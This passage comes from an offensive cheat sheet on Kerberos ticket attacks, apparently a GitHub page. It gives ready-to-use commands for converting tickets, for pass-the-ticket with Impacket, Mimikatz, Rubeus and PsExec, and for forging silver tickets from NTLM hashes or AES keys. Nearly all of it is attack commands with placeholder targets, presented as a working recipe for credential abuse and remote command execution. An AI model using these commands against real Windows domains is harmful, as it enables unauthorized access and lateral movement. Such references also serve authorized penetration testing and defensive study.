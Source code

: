 ```
# ccache (Linux), kirbi (Windows from mimi/Rubeus) 
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

### Using ticket in Linux

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

### Using ticket in Windows

Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Silver ticket

> Build a TGS with Service key

### Linux (external)

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```
# To generate the TGS with NTLM
python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
